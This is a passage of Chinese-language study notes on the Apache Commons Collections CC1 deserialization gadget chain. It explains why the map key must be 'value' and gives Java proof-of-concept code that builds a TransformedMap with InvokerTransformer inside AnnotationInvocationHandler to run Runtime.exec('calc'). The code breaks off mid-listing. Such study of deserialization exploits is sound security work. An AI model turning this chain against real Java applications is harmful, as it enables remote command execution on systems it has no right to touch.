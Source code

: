 ```java
@Target(ElementType.ANNOTATION_TYPE)  
public @interface Target {  
    /**  
     * Returns an array of the kinds of elements an annotation type     * can be applied to.     * @return an array of the kinds of elements an annotation type  
     * can be applied to     */    ElementType[] value();  
}
```
可以发现其成员方法为value,并且返回值为ElementType[]类型，因此这时memberTypes的值应该为
{"value":"ElementType[]"}（方便理解）实际如图
![[Pasted image 20250531005535.png]]
这时我们需要确保name为"value"即memberTypes这样才能保证memberType非空，可以正常获取值
```java
Class<?> memberType = memberTypes.get(name);
```
修改后payload,修改expMap.put("value", "test");  这
```java
package org.example;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.TransformedMap;  
  
  
import java.lang.annotation.Annotation;  
import java.lang.annotation.Target;  
import java.lang.reflect.Method;  
import java.util.HashMap;  
import java.util.Map;  
import java.io.*;  
import java.lang.annotation.Retention;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.InvocationHandler;  
import java.lang.reflect.Method;  
import java.util.HashMap;  
import java.util.Map;  
  
// 按两次 Shift 打开“随处搜索”对话框并输入 `show whitespaces`，  
// 然后按 Enter 键。现在，您可以在代码中看到空格字符。  
public class Main {  
    public static void main(String[] args) throws Exception {  
        Runtime runtime = Runtime.getRuntime();  
  
//        InvokerTransformer exp = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});  
//        exp.transform(runtime);  
        Map<Object, Object> expMap = new HashMap<>();  
        expMap.put("value", "test");  
        InvokerTransformer expTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});  
        Map<Object, Object> transformedMap = TransformedMap.decorate(expMap, null, expTransformer);  
  
//        Map.Entry<Object, Object> entry = transformedMap.entrySet().iterator().next();  
//        entry.setValue(runtime);  
        Class expClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  
        Constructor<?> expClassConstructor = expClass.getDeclaredConstructor(Class.class, Map.class);  
        expClassConstructor.setAccessible(true);  
        Object expO = expClassConstructor.newInstance(Target.class, transformedMap);  
  
        serialize(expO);  
        unserialize();  
  
//        Class<?> clazz = transformedMap.getClass();  
```